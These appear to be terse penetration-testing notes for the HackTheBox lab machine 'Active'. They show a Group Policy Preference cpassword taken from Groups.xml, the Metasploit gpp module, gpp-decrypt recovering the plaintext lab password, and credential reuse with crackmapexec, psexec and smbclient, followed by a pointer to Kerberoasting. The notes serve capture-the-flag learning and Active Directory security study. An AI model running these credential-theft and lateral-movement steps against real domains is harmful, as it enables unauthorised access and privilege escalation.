

(2) GPP/cPasswords :
Groups.xml contains GPP credentials :
=> Group Policy Preference
=> name / userName + cpassword
=> Allows domain admin to create domain policies using embedded credentials- => Privilege escalation !
(GPP is low-hanging fruit, can be used as a bait to detect penetretation : canary account)
See : https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/
(1) See into Groups.xml- - gedit active.htb/Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml &


- => GPP creds
- - name="active.htb\SVC_TGS"
- - userName="active.htb\SVC_TGS"
- - cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
- (1.b) Alternative technique to get GPP/cpassword : metasploit
- - msfconsole
- > search gpp
- > use post/windows/gather/credentials/gpp
- > options
- > set session 1
(2) Decrypt cpassword- - gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ 
- => GPPstillStandingStrong2k18
(3) Try to get in anywhere we can with these credentials- - id : active.htb\SVC_TGS
- - pd : GPPstillStandingStrong2k18
- => Try to login or pass credz around :
- - crakmapexec
- psexec
- smb client login
...
- Solution : Kerberoasting